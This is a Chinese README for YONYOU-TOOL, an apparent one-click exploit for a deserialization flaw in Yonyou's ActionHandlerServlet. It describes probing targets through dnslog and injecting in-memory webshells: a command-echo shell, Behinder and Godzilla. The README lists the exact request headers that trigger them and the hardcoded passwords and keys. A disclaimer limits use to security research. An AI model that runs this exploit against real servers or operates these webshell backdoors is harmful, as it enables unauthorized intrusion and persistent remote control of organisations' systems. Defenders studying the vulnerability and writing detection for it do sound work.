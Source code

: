 # YONYOU-TOOL

用于用友漏洞一键利用。

学习用友 ActionHandlerServlet 反序列化过程时一时兴起，顺手写一款利用工具记录学习。

本项目参考 **wafinfo** 项目代码，项目地址：https://github.com/wafinfo/NCTOOls

## 免责声明

本工具仅适用于安全研究学习，严禁使用本工具发起网络黑客攻击，造成法律后果，请使用者自负。

## 支持漏洞

```
ActionHandlerServet 反序列化
```

目前仅支持 ActionHandlerServlet 反序列化漏洞，后续根据学习进度**佛系**更新......

## 使用说明

```
Usage: java -jar YONYOU-TOOL.jar [Options]
  Options:
    -h, --help        Show this help
    -t, --target      Set target url  (e.g.: http://0.0.0.0:443)
    -m, --module      Set module  (support: poc exp)
    -v, --vuln        Set vulnerability  (e.g.: ActionHandlerServlet)
    -p, --proxy       Set http proxy  (e.g.: http://127.0.0.1:8080)
    -d, --dnslog      Set dnslog platform
  Vuln Support:
    1. ActionHandlerServlet
  Tips:
    1. You must specify the target, vuln, mod parameters.
    2. When mod is set to poc, the dnslog parameter must be specified.
```

## 使用教程

### 漏洞探测

支持自定义 dnslog 探测。-t 指定目标 url，-v 指定利用的漏洞，-m 指定 poc 模块，-d 指定dnslog。

![image-20240723193745717](assets/image-20240723193745717.png)

### 漏洞利用

支持一键打入内存马，同时注入回显、冰蝎、哥斯拉。

```
回显
添加请求头
x-client-referer:http://www.baidu.com/
x-client-data:testzxcv
testzxcv:<base64编码后命令>
--------------------------------------------------------------------------------------------
冰蝎
添加请求头
x-client-referer:http://www.baidu.com/
x-client-data:behinder
密码
chaveyyds
--------------------------------------------------------------------------------------------
哥斯拉
添加请求头
x-client-referer:http://www.baidu.com/
x-client-data:godzilla
密钥
chaveyyds
密码
pass
```

-t 指定目标 url，-v 指定利用的漏洞，-m 指定 exp 模块。

![image-20240723195917985](assets/image-20240723195917985.png)

注入 Filter 类型内存马需要手动检查内存马是否存在。

![image-20240723200132924](assets/image-20240723200132924.png)

![image-20240723200403714](assets/image-20240723200403714.png)

![image-20240723200610246](assets/image-20240723200610246.png)

## 最后

后续有时间增加漏洞...再说...再说...再说...

后续考虑修改为图形化界面...

记录学习为主...

能用就行...
